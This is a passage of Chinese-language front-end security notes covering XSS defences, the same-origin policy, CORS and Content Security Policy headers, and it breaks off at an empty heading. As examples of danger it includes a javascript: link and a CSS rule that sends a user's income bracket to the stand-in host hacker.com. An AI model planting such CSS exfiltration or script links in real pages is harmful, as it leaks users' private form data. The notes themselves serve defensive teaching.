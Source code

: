 工具

* 主流框架默认防御XSS
* Google-closure-library
* DOMPurify

#### 无法避免动态生成DOM

当存在需求无法避免动态生成DOM时，注意以下几点

##### DOM

对字符进行转义

##### SVG

允许上传图片时也要注意对SVG进行扫描

##### 自定义跳转连接

当允许用户自定义跳转连接时，需要对跳转连接进行过滤防范，例如`<a herf="javascript:alert(0)">` 存在危险

##### 自定义样式

当有表单radio被点击时触发get请求, 暴露收入情况

```css
input[type=radio].income-ge10k {
    background: url("http://hacker.com/?income=gt10k");
}
```

### CSRF

#### 同源策略

当满足以下条件时，浏览器认为同源，否则跨域

* 协议相同
* 域名相同
* 端口相同

如果发生跨域，看服务器是否支持CORS

#### Content Security Policy(CSP)

内容安全策略定义哪些源或域名是安全的，来自安全源的脚本可以执行，否则报错

对eval + inline scipt 说不

##### 服务器端设置

```text
Content-Security-Policy: script-src 'self' 同源允许
Content-Security-Policy: script-src 'self' https://domain.com 在同源之外允许该域脚本执行
```

##### 前端设置
